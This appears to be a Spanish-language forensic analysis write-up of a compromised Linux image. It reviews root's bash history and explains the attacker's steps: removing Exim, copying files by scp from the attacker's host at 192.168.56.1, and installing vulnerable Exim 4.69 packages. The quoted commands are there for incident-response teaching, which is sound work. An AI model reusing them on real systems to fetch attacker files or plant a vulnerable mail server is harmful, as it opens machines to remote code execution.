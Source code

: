 <a name="analizarcomandos"></a>
<h2>3- Analizar historial comandos</h2>
Anteriormente nos indicaron que esta imagen del sistema tiene algo raro, puede que sea algo malicioso, para ello comprobaremos si accedieron al usuario root y si es así que podamos ver que comandos ejecutaron como usuario administrador.

```bash
cat root/.bash_history
```
![bash_history](https://user-images.githubusercontent.com/47476901/151601626-071bcd58-4727-430e-b672-ae151a8816f6.png)

### <b>¿Que hizo el atacante como administrador?</b>
<br>
###### 1- Elimina el programa exim del sistema

```bash
apt-get remove exim4
apt-get remove exim4-base
apt-get remove exim4-daemon-light
dpkg -l | grep exim
apt-get remove exim4-config
dpkg --purge
apt-get remove exim
dpkg -l | grep exim
```

###### 2- Comprueba en que ruta se encuentra, crea una carpeta llamada exim4 y la abre. 

```bash
pwd
mkdir exim4
cd exim4/
```

###### 3- Con el comando scp copia todos los archivos mediante ssh del host del atacante en la nueva carpeta

```bash
scp yom@192.168.56.1:/home/yom/temporary/exim4/* .
```

###### 4- Instala los paquetes vulnerables de exim que se descargó desde su maquina remotamente.

<li>Esta version de Exim tiene una vulnerabilidad critica</li>
<li>Exim 4.69 Remote Code Execution via Buffer overflow (Desbordar la memoria)</li>

```bash
dpkg -i exim4_4.69-9_all.deb 
dpkg -i --ignore-depends=exim4-base,exim4-daemon-light exim4_4.69-9_all.deb 
dpkg -i exim4-base_4.69-9_i386.deb 
dpkg -i exim4-config_4.69-9_all.deb 
dpkg -i exim4-base_4.69-9_i386.deb 
dpkg -i exim4-daemon-light_4.69-9_i386.deb 
```
